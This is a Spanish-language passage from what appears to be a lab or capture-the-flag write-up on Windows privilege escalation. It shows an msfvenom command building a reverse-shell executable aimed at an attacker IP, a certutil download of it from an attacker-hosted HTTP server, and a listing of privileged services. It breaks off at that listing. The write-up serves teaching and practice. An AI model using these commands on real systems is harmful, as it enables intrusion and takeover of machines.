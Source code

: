 ```bash
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```
{: .nolineno}


### Metodo 1 

Se puede crear un ejecutable malicioso que envíe una shell reversa al equipo del atacante. Para eso, es necesario utilizar MSFvenom:

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhost=10.10.14.17 lport=8888 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```
{: .nolineno}

Se puede transferir el archivo con certutil.exe , pero para eso es necesario montar un servidor para que el archivo sea consumido:

```bash
python3 -m http.server 8081
```
{: .nolineno}

```bash
certutil.exe -urlcache -f http://10.10.14.17:8081/shell.exe binariobonito.exe 
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
{: .nolineno}


Ahora es necesario listar los servicios y elegir alguno que cuente con privilegios elevados.


```powershell
services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
```
